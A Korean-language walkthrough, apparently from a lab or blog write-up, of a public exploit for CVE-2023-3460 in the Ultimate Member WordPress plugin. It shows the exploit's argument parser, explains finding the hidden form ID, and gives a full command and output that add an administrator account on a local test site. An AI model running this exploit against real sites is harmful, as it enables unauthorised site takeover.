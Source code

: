 명령줄 인자와 옵션을 확인하고 PoC를 실행한다.

```python
parser = argparse.ArgumentParser(description='Exploit for CVE-2023-3460 for Ultimate Member - Wordpress.')
required = parser.add_mutually_exclusive_group(required=True)
required.add_argument('-t', '--target', type=str, help='Target IP or domain', required=False)
parser.add_argument('-n', '--nonce', type=str, help='Nonce', required=False)
parser.add_argument('-u', '--user', type=str, help='User to be added', required=False, default='gordo')
parser.add_argument('-p', '--password', type=str, help='Password to be added', required=False, default='HackingAnotherWebsite15')
parser.add_argument('-e', '--email', type=str, help='Email to be added', required=False, default='hacked@gmail.com')
parser.add_argument('-l', '--list', type=str, help='List of targets to search', required=False)
required.add_argument('-c', '--check', action='store_true', help='Only check if it is vulnerable')
parser.add_argument('-i', '--id', type=int, help='Form ID (default 6)', default=6)

args = parser.parse_args()
stopScan = args.check
lista = args.list
target = args.target
form_id = args.id
```

폼 아이디는 기본값으로 6이 설정되어 있으나 고유 식별자이므로 환경마다 다를 수 있다. 폼 아이디가 로컬 환경과 동일해야 회원가입에 성공할 수 있으므로 `-i` 옵션의 인자로 정확하게 전달해야 한다.

폼 아이디는 회원가입 창에 hidden으로 숨겨져 있다.

```html
<input type="hidden" name="form_id" id="form_id_27" value="27">
```

다음과 같이 사용자 정보를 인자로 전달해주면 관리자 권한의 사용자를 생성할 수 있다.

```bash
python exploit.py -t http://localhost/wordpress -u bde574786 -p Bde123123 -e bde574786@naver.com -i 27

--- Exploit and scan for CVE-2023-3460 | Made by Diego Tellaroli | https://github.com/diego-tella ---
[+] Checking if target is vulnerable...
[!] version found: 2.6.6 - Target vulnerable!
[+] Getting nonce...
[!] Nonce found: 7bd10cb2aa
[+] Adding a new administrator...
[!] User added
[+] username: bde574786
[+] email: bde574786@naver.com
[+] password: Bde123123
```

임의로 생성한 사용자는 `/wp-admin/user.php`에서 확인할 수 있다.
